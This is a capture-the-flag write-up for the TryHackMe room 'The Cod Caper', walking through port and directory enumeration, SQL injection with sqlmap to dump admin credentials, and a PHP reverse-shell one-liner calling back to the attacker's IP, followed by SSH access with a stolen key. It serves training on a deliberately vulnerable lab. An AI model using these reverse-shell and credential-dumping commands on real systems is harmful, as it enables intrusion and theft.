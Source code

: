 # TryHackMe-The_Cod_Caper-WriteUp
My solution for the room called "The Cod Craper" in TryHackMe

## Host Enumeration 

<p> The first step is to see what ports and services are running on the target machine. 
Recommended Tool - nmap:
Useful flags: -p -sC -A </p>

<p> To answer this questions we need to scan the machine with nmap and analyze the results</p>

```nmap 
nmap -A <IP> -vv
```
![nmap](https://user-images.githubusercontent.com/67475596/103458587-e65f9400-4d09-11eb-85da-2f2e1c717200.png)

We can see that there are two port open, 22 with ssh service and port 80 with http


**Question 1:** How many ports are open on the target machine? <br>
<code> 2 </code>

**Question 2:** What is the http-title of the web server? <br>
<code> Apache2 Ubuntu Default Page: It works </code>

**Question 3:** What version is the ssh service? <br>
<code> OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 </code>

**Question 4:** What is the version of the web server? <br>
<code> Apache/2.4.18 </code>

## Web Enumeration 

<p> Since the only services running are SSH and Apache, it is safe to assume that we should check out the web server first for possible vulnerabilities. One of the first things to do is to see what pages are available to access on the web server.
Recommended tool: gobuster
Useful flags: -x --url --wordlist 
	
Recommended wordlist: big.txt </p>

![default page](https://user-images.githubusercontent.com/67475596/103477313-f9cc3700-4dbd-11eb-877f-d61c426166f8.png)

<p>If we open the ip on a browser we can see that there is the default page of Apache2 Ubuntu <br>
Now let's scan the ip with gobuster for enumerate some directories and files.</p>

```bash 
gobuster dir -u http://IP/ -w big.txt -x .php,.html,.txt
```

![gobuster](https://user-images.githubusercontent.com/67475596/103477366-9262b700-4dbe-11eb-8479-c080708fcaa9.png)

Here we are.. we found the important file !


**Question 1 :** What is the name of the important file on the server? <br>
<code> administrator.php </code>

## Web Exploitation

<p>The admin page seems to give us a login form. In situations like this it is always worth it to check for "low-hanging fruit". In the case of login forms one of the first things to check for is SQL Injection. <br>

Recommended Tool: sqlmap

Useful Flags: -u --forms --dump -a

On the page IP/administrator.php we have an administrator login 

![login](https://user-images.githubusercontent.com/67475596/103477577-8c6dd580-4dc0-11eb-9179-4bf229f46f7e.png)

Let's try an SQL Injection with sqlmap <br>

```bash
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

but first we need to intercept the http request with burpsuite

![request](https://user-images.githubusercontent.com/67475596/103477728-cd1a1e80-4dc1-11eb-81f6-f7f78922c1bb.png)

now save it in a .txt file and then launch sqlmap

```bash
sqlmap -r request.txt -D users --tables
```


![sqlmap 1](https://user-images.githubusercontent.com/67475596/103477764-0c486f80-4dc2-11eb-8381-22f1d908bc69.png)

Mmmh... interesting we found some databases :)

![sqlmap 2](https://user-images.githubusercontent.com/67475596/103477797-592c4600-4dc2-11eb-98a8-ae36a56d3c15.png)

Let's check "users"

```bash
sqlmap -r request.txt -D users -T users --dump
```

![sqlmap 3](https://user-images.githubusercontent.com/67475596/103477822-9a245a80-4dc2-11eb-9629-02cb1b129a2b.png)

Here are the username and password !

![user pass sqlmap](https://user-images.githubusercontent.com/67475596/103477845-d9eb4200-4dc2-11eb-906a-61f035ae8e09.jpg)


**Question 1:** What is the admin username? <br>

**Question 2:** What is the admin password? <br>

**Question 3:** How many forms of SQLI is the form vulnerable to? <br>
<code> 3 </code>

![sql1](https://user-images.githubusercontent.com/67475596/103491639-d9d05e00-4e25-11eb-88be-fbc4db8cef33.png)
![sql2](https://user-images.githubusercontent.com/67475596/103491642-dc32b800-4e25-11eb-88b2-7026454113c4.png)
![sql3](https://user-images.githubusercontent.com/67475596/103491644-dccb4e80-4e25-11eb-8d12-2ab8077ca7ef.png)
</p>

## Command Execution

<p> It seems we have gained the ability to run commands! Since this is my old PC, I should still have a user account! Let's run a few test commands, and then try to gain access! </p>

<p> Now we have the credentials found with sqlmap <br>
Let's do the log in </p>

Ouch ... another form <br>
![run_command](https://user-images.githubusercontent.com/67475596/103491811-f8832480-4e26-11eb-99ef-e6f307ee9b77.png)

<p> Now let's try to get a reverse shell with netcat <br>
  but first prepare a php shell

```bash
php -r '$sock=fsockopen("YOUR IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

![run command](https://user-images.githubusercontent.com/67475596/103491856-48fa8200-4e27-11eb-8d09-7379187a7886.png)

Don't forget to run netcat on the attacking machine

![run_netcat](https://user-images.githubusercontent.com/67475596/103491944-db028a80-4e27-11eb-9bd4-928918dcc68d.png)
</p>

If everything went well then we are inside the target machine

![netcat](https://user-images.githubusercontent.com/67475596/103492037-93c8c980-4e28-11eb-868b-df6845cd33a9.png)

**Question 1:** How many files are in the current directory? <br>
<code> 3 </code>

**Question 2:** Do I still have an account <br>
<code> yes </code>

**Question 3:** What is my ssh password? <br>
<p> To answer this question I've searched into the machine <br>
the path is the following </p>

> /var/hidden/pass

![pass ssh](https://user-images.githubusercontent.com/67475596/103492201-85c77880-4e29-11eb-9f81-0afbb665caa3.jpg)

## LinEnum

**Question 1:** What is the interesting path of the interesting suid file <br>

<p> My solution: <br>
first connect to the ssh with the ssh key found in </p>

> /home/pingu/.ssh/id_rsa

![ls - a](https://user-images.githubusercontent.com/67475596/103492276-fcfd0c80-4e29-11eb-8fcb-04dd1ae3199c.png)

![Inkedkey rsa_LI](https://user-images.githubusercontent.com/67475596/103492303-33d32280-4e2a-11eb-8cda-955e245bf62b.jpg)

put it in a .txt file and then log to the ssh

```bash
ssh -i ssh_key.txt pingu@IP
```

![ssh](https://user-images.githubusercontent.com/67475596/103492363-afcd6a80-4e2a-11eb-8319-386995457d0d.png)


    
   
